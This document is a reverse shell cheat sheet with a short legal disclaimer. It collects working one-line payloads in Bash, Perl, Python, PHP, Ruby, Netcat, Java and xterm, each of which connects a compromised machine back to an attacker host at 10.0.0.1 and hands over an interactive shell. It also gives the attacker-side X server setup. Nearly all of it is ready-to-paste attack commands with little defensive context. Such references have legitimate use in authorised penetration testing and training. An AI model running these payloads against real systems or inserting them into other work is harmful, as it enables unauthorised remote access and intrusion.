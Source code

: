 # Reverse Shell Cheat Sheet
These information may be used for legal purposes only.  Users take full responsibility for any actions performed using what they learned.  The author accepts no liability for damage caused.  If these terms are not acceptable to you, then do not use any of it.

```The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.```

## Bash
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
## PERL
~~~
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

## Python
tested under Linux / Python 2.7:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5 or 6
~~~
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

## Ruby
~~~
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
~~~

## Java
~~~
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
~~~

## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
~~~
xterm -display 10.0.0.1:1
~~~

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
~~~
Xnest :1
~~~

You’ll need to authorise the target to connect to you (command also run on your host):
~~~
xhost +targetip
~~~
